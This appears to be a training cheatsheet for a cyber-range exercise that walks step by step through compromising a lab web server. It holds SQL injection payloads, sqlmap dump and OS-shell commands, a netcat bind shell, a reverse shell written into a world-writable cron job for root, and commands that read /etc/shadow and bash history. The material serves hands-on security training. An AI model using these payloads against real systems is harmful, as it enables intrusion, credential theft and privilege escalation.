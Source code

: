 # CDIS Cyber Range | EU Cyber Attaché Exercise Cheatsheet

## 1) Identify the network services

```sh
nmap 10.0.3.193
```

## 2) Signup the ewebpage

- `http://10.0.3.193/php/inscription.php`

## 3) Identify an old version of a webpage

- `http://10.0.3.193/php/recherche_old.php` 
  
## 4) Misuse input validation vulnerability

- Enter a single quote (`'`)  into the text field and press the button
- Enter `' or 1=1#` into the text field and press the button

## 5) Retrieve arbitrary data from the database through SQL injection

- Copy the request below and paste it into a text file called `sqli.txt`
```sh
POST /php/recherche_old.php HTTP/1.1
Host: 10.0.3.193
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 38
Origin: http://10.0.3.193
Connection: close
Referer: http://10.0.3.193/php/recherche_old.php
Cookie: PHPSESSID=a62f5c5fio2i8l8spkas8mfjt6
Upgrade-Insecure-Requests: 1

recherche=emre&btnRechercher=Rechercher
```
- Copy the PHPSESSID from your browser and replace the value found in the `sqli.txt`

### 5.1 Execute `sqlmap` to identify database names

```sh
sqlmap -r sqli.txt --dbms=mysql --dbs 
```

### 5.2 Execute `sqlmap` to get the records found in the in the `cuiteur` database
```sh
sqlmap -r sqli.txt --dbms=mysql -D cuiteur --dump
```

## 6) Grant the initial shell access

### 6.1 Execute `sqlmap` to grant a SQL shell connection via SQL injection
```sh
sqlmap -r sqli.txt --dbms=mysql --os-shell
```

### 6.2 Execute OS commands through the SQL shell connection
```sh
whoami

hostname

pwd
```

### 6.3 Execute the following command to have a more convenient bind shell access
```sh
rm /tmp/pipe; mkfifo /tmp/pipe; /bin/sh /tmp/pipe | nc -l 5555 > /tmp/pipe
```

### 6.4 Execute the following command to establish a `nc` bind connection (Switch to another terminal on your **Kali**)
```sh
nc 10.0.3.193 5555
```

### 6.5 Execute some OS commands through the `nc` connection
```sh
whoami

pwd

locate flag{

cat /var/www/flag{3b200052e26a8c685c53ab507ce4dca76cf53d9936fad0}.jpg
```

### 6.6 Identify a file with a promising filename
```sh
cd ..

ls

ls /var/www/upload

# Download the file from the web browser
http://10.0.3.193/upload/leaks.zip

unzip leaks.zip
```

### 6.7 Realize also that you have limited access
```sh
cat /etc/shadow
```

## 7) Identify a vulnerable configuration

### 7.1 Identify a world-writable directory
```sh
find / -writable -type f ! -path "/proc/*" ! -path "/sys/*" ! -path "/var/www/*" -exec ls -al {} \; 2>/dev/null
```

## 8) Escalate privileges to root

### 8.1 Examine the cron job with write access for everyone 
```sh
cd /etc/cron.hourly
cat cuiteur-cleaning
```
### 8.2 Open a listener on the **Kali** for a reverse shell connection with root privileges
```sh
sudo nc -nlvp 7777
``` 
### 8.3 Edit the cron job to have a reverse shell payload inside
```sh
echo "rm /tmp/pipe; mkfifo /tmp/pipe; nc 192.168.0.2 7777 0</tmp/pipe | /bin/sh >/tmp/pipe 2>&1" >> cuiteur-cleaning
```

### 8.4 Execute some OS commands through the `nc` connection
```sh
whoami

pwd

locate flag{

cat /etc/shadow
```

## 9) Identify a plaintext password in the bash history  

### 9.1 Perform post-exploitation activities
```sh
cat /root/.bash_history
```

### 9.2 Access the password-protected file
```sh
unzip -P x5^#CNYK-Ng@MkHZR748 /home/emre/Downloads/leaks.zip
```
